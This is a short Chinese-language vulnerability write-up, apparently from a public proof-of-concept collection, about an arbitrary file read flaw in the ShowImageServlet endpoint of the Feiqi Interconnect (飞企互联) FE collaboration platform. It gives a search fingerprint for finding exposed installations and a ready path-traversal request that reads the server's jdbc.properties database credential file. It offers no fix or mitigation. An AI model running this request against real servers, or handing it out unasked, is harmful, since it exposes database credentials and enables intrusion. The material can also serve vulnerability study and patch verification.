

# 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

飞企互联 FE业务协作平台

## 网络测绘

```
"flyrise.stopBackspace.js"
```

## 漏洞复现

登陆页面


验证POC

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

